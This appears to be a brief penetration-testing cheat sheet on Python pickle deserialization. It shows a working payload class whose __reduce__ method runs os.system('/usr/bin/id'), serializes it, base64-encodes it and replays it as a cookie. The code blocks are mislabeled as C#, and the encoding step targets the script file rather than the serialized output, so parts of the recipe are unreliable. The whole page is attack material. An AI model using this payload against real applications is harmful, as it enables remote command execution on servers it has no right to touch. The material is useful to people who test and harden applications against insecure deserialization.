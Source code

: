 # Python Pickle

## Python Pickle

### base64 cookie

#### Create the following object and serialize it, then encode it with base64

```csharp
import _pickle as cPickle
import os

class Safe(object):
    def __reduce__(self):
        return (os.system,("/usr/bin/id",))

test = Safe()
bserial =  cPickle.dumps(test, 0).decode()
print(bserial)


```

```csharp
cat payload.py | base64 
```

* replay the request with the edited cookie value.

